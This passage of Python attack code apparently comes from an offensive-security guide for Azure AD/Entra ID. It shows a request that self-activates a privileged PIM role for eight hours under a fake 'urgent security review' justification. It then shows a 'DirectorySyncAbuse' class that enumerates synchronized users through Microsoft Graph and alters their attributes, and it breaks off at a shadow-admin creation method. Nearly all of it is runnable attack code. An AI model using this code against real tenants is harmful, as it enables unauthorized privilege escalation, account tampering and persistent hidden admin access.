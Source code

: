 ```python
            "assignmentState": "Active",
            "type": "UserAdd",
            "reason": "Urgent security review required",
            "roleDefinitionId": target_role_id,
            "subjectId": self.get_current_user_id(),
            "schedule": {
                "type": "Once",
                "startDateTime": datetime.utcnow().isoformat(),
                "duration": "PT8H"  # 8 hours
            }
        }

        response = requests.post(pim_url, headers=headers, json=activation_request)

        if response.status_code == 201:
            print("PIM role activation successful")
            return response.json()
        else:
            print(f"PIM activation failed: {response.text}")
            return None
```

### Directory Synchronization Abuse

```python
class DirectorySyncAbuse:
    def __init__(self, access_token):
        self.access_token = access_token
        self.graph_url = "https://graph.microsoft.com/v1.0"

    def abuse_hybrid_identity(self):
        """Abuse hybrid identity synchronization"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Step 1: Identify synchronized users
        sync_users = self.identify_synced_users()

        # Step 2: Modify on-premises attributes that sync to cloud
        for user in sync_users[:5]:  # Limit to first 5 users
            self.modify_synced_attributes(user['id'])

    def identify_synced_users(self):
        """Identify users synchronized from on-premises"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Look for users with immutableId (indicates sync from on-prem)
        users_url = f"{self.graph_url}/users?$filter=immutableId ne null&$select=id,userPrincipalName,immutableId,onPremisesSecurityIdentifier"

        response = requests.get(users_url, headers=headers)

        if response.status_code == 200:
            return response.json().get('value', [])
        else:
            return []

    def create_shadow_admin(self):
```